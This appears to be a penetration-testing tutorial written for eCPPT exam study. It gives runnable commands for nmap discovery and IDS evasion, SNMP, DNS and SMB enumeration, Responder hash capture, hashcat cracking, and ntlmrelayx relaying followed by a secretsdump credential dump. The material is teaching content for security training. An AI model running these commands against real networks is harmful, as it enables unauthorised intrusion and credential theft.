

Network penetration testing forms the bedrock of real-world security assessments and represents a critical evaluation pillar in the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** examination. Enterprise internal perimeters are rarely uniform; they comprise complex legacy systems, segmented subnets, Active Directory domain controllers, and protocols that trade security for backward compatibility.

In this deep dive, we deconstruct the full network assessment lifecycle: executing multi-layered host discovery, analyzing Nmap packet exchanges at the wire level, auditing legacy network services, and weaponizing Man-in-the-Middle (MITM) attacks via **LLMNR/NBT-NS Poisoning** and **SMB Relaying**.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 2: Exploit Development: Stack & SEH Overflows](/posts/ecppt-v3-part-2-exploit-development-buffer-overflows/) | **Part 3: Network Penetration Testing & MITM** | [Part 4: Active Directory Pentesting & Kerberos](/posts/ecppt-v3-part-4-active-directory-penetration-testing/) |

---

## Key Takeaways

* **Multi-Layer Host Discovery**: Relying solely on ICMP Echo requests (`ping`) is inadequate in modern environments where perimeter firewalls drop ICMP packets. We combine Layer 2 ARP sweeps on local subnets with multi-vector Layer 3 and Layer 4 probes (TCP SYN, TCP ACK, and UDP pings) across routed networks.
* **Nmap Scanning Wire Mechanics**: The TCP SYN Stealth scan (`-sS`) initiates a "half-open" handshake, tearing down the connection with a `RST` packet before application-layer logging can occur, making it faster and significantly quieter than a full TCP Connect scan (`-sT`).
* **Deep Protocol Enumeration**: Gathering service banners is merely the starting point. Penetration testers must perform targeted enumeration: harvesting SNMP MIB trees using community strings, checking DNS zone transfers (AXFR), and querying SMB/RPC via RID cycling.
* **LLMNR and NBT-NS Poisoning**: When Windows clients fail to resolve internal hostnames via DNS, they broadcast fallback requests to the local subnet. Using `Responder`, an attacker can poison these requests and capture NetNTLMv1/v2 password hashes.
* **SMB Relaying with `ntlmrelayx`**: If target servers do not require message signing (**SMB Signing Disabled**), captured NetNTLMv2 authentications can be relayed directly to other machines in real time, yielding administrative command execution or interactive SOCKS proxies without cracking hashes.

---

## 1. Multi-Layer Host Discovery and Network Mapping

Before dedicating hours to scanning 65,535 ports per host, an attacker must map out all active systems on the target subnet without alerting intrusion detection systems:

```mermaid
flowchart TD
    Start["Begin Target Subnet Discovery (e.g. 10.10.10.0/24)"] --> IsLocal{Is Target on the Same Local Subnet (LAN)?}
    
    IsLocal -- Yes: Layer 2 --> ARP["Execute ARP Ping Sweep (-PR)<br/>Sends broadcast ARP requests to every IP in subnet"]
    ARP --> ARPOk["Receive ARP Replies directly from NICs<br/>100% accurate, cannot be blocked by host firewalls"]
    
    IsLocal -- No: Routed Layer 3/4 --> ProbeCombo["Execute Combined Multi-Vector Probes:"]
    ProbeCombo --> P1["1. ICMP Echo (-PE), Timestamp (-PP), Subnet Mask (-PM)"]
    ProbeCombo --> P2["2. TCP SYN Ping to high-value ports 80, 443, 445 (-PS80,443,445)"]
    ProbeCombo --> P3["3. TCP ACK Ping to bypass stateless firewalls (-PA80,3389)"]
    ProbeCombo --> P4["4. UDP Ping to high ports (-PU40125)"]
    
    P1 & P2 & P3 & P4 --> Aggregate["Aggregate responses to identify live systems behind firewalls"]
```

### Tactical Discovery Commands:

```bash
# 1. High-speed Layer 2 ARP discovery on local subnets
sudo nmap -sn -PR 192.168.1.0/24

# 2. Comprehensive Layer 3/4 routed discovery sweep
sudo nmap -sn -PE -PP -PS22,80,443,445 -PA80,3389 -PU53 10.10.10.0/24 -oA discovery_sweep
```

---

## 2. Nmap Port Scanning Mechanics: Wire-Level Dissection

Understanding how TCP/IP packets interact with target ports is critical for troubleshooting scan results and interpreting filtered states:

```mermaid
sequenceDiagram
    autonumber
    participant Scanner as Nmap Scanner
    participant Target as Target Port (TCP 80)
    
    rect rgb(20, 30, 45)
        Note over Scanner,Target: 1. Full TCP Connect Scan (-sT)
        Scanner->>Target: SYN Packet
        Target->>Scanner: SYN/ACK Packet (Port is OPEN)
        Scanner->>Target: ACK Packet (Handshake Complete)
        Scanner->>Target: RST/ACK Packet (Immediate Teardown)
    end
    
    rect rgb(35, 25, 30)
        Note over Scanner,Target: 2. SYN Stealth Scan (-sS)
        Scanner->>Target: SYN Packet
        Target->>Scanner: SYN/ACK Packet (Port is OPEN)
        Scanner->>Target: RST Packet (Half-Open Teardown! No session established)
    end
```



### Technical Scan Type Comparison:

| Scan Type | Nmap Flag | Privilege Level | Packet Mechanics | Stealth & Performance Profile |
| :--- | :--- | :--- | :--- | :--- |
| **TCP SYN Scan** | `-sS` | Requires `root/sudo` | Sends `SYN`, receives `SYN/ACK`, immediately sends `RST`. | Fast, stealthy; does not trigger application-layer connection logs. |
| **TCP Connect Scan** | `-sT` | Unprivileged User | Completes the entire 3-way handshake (`SYN -> SYN/ACK -> ACK`). | Slower; leaves explicit connection records in server logs. |
| **UDP Scan** | `-sU` | Requires `root/sudo` | No response indicates `Open\|Filtered`; ICMP Port Unreachable indicates `Closed`. | Very slow due to OS ICMP rate-limiting; crucial for DNS, SNMP, TFTP. |
| **Null / FIN / Xmas** | `-sN / -sF / -sX` | Requires `root/sudo` | Exploits RFC 793: Closed ports reply with `RST`, open ports drop the packet. | Bypasses non-stateful firewalls; ineffective against modern Windows stacks. |

### Production Two-Phase Scanning Methodology:

```bash
# Phase 1: Rapid full-port discovery across all 65,535 TCP ports
sudo nmap -p- --min-rate 2500 -T4 10.10.10.50 -oN open_ports.txt

# Extract discovered ports into a clean comma-separated string
PORTS=$(grep '^[0-9]' open_ports.txt | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Phase 2: In-depth version detection and default safe NSE scripts
sudo nmap -p $PORTS -sC -sV -O 10.10.10.50 -oA targeted_service_audit
```

---

## 3. Deep Protocol Enumeration

### SNMP Enumeration (Port 161/162 UDP)
Simple Network Management Protocol (SNMP) is a goldmine for penetration testers when configured with default or guessable community strings (`public`, `private`):

```bash
# 1. Brute-force SNMP community strings across the subnet
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.10.10.50

# 2. Walk the entire Management Information Base (MIB) tree
snmpwalk -v2c -c public 10.10.10.50

# 3. Query specific OIDs: running processes, installed software, and local user accounts
snmpwalk -v2c -c public 10.10.10.50 hrSWRunName
snmpwalk -v2c -c public 10.10.10.50 1.3.6.1.4.1.77.1.2.25  # Windows User Accounts OID
```

### DNS Enumeration & Zone Transfers (Port 53)
If a DNS nameserver is misconfigured, it may permit unrestricted **AXFR Zone Transfers**, leaking the entire internal host naming scheme:

```bash
# Attempt an AXFR zone transfer against the target nameserver
dig axfr @10.10.10.50 inlanefreight.local
```

### SMB & RPC Enumeration (Ports 139 / 445 / 135)
Server Message Block (SMB) provides direct access to network shares, user listings, and password policies:

```bash
# Comprehensive SMB/RPC auditing using enum4linux-ng
enum4linux-ng -A 10.10.10.50 -oA enum4linux_report

# Enumerate shares, user sessions, and check SMB signing status using CrackMapExec
crackmapexec smb 10.10.10.50 --shares
crackmapexec smb 10.10.10.0/24 --gen-relay-list targets_without_signing.txt
```

---

## 4. Man-in-the-Middle Attacks: LLMNR/NBT-NS Poisoning & SMB Relay

In Windows Active Directory environments, when a workstation attempts to connect to an internal resource (such as `\\fileserver`) and DNS resolution fails (e.g., due to a typo like `\\filesrev`), Windows falls back to broadcast name resolution via **LLMNR (Link-Local Multicast Name Resolution)** and **NBT-NS (NetBIOS Name Service)**.



### Executing Responder for Credential Harvesting:

```bash
# Launch Responder on the active listening interface
sudo responder -I eth0 -dwv

# Once a NetNTLMv2 hash is captured, crack it offline with Hashcat:
hashcat -m 5600 netntlmv2_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

### Executing Real-Time SMB Relay via Impacket:

If the victim user holds local administrator privileges on other domain machines, and **SMB Signing is Disabled** on those machines, we can relay the authentication directly without cracking passwords:

```bash
# Step 1: Disable SMB and HTTP servers in /etc/responder/Responder.conf
# Set SMB = Off and HTTP = Off so ntlmrelayx can bind to those ports

# Step 2: Start Impacket's ntlmrelayx with SOCKS proxy support
sudo ntlmrelayx.py -tf targets_without_signing.txt -smb2support -socks

# Step 3: When a victim authenticates, an interactive SOCKS session is established!
# Use proxychains to execute commands on the relayed target:
proxychains secretsdump.py DOMAIN/VICTIM@10.10.10.60
```

---

## 5. Defense Evasion and Firewall Traversal

When operating against intrusion detection systems (Snort, Suricata) and restrictive firewall filters:

1. **Packet Fragmentation**:
   Splitting the TCP header across multiple small 8- or 16-byte packets prevents inspection by simple pattern-matching packet filters:
   ```bash
   sudo nmap -sS -f --mtu 16 10.10.10.50
   ```
2. **Decoy Scanning (`-D`)**:
   Blending real scanning packets with probes originating from spoofed IP addresses to obscure the true attacker host:
   ```bash
   sudo nmap -sS -D 10.10.10.2,10.10.10.3,ME,10.10.10.4 10.10.10.50
   ```
3. **Source Port Spoofing (`-g`)**:
   Misconfigured firewall rules often permit inbound traffic if the source port matches trusted services such as DNS (port 53) or HTTP (port 80):
   ```bash
   sudo nmap -sS -g 53 10.10.10.50
   ```

---

## References & Further Reading

1. **Nmap Network Scanning: The Official Nmap Project Guide** by Gordon "Fyodor" Lyon.
2. **RFC 793: Transmission Control Protocol Specification**: [https://tools.ietf.org/html/rfc793](https://tools.ietf.org/html/rfc793)
3. **Responder Project Repository**: [https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
4. **SecureAuth Impacket Repository**: [https://github.com/fortra/impacket](https://github.com/fortra/impacket)
5. **MITRE ATT&CK Matrix**:
   * Technique T1046: Network Service Discovery
   * Technique T1557.001: LLMNR/NBT-NS Poisoning and SMB Relay

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
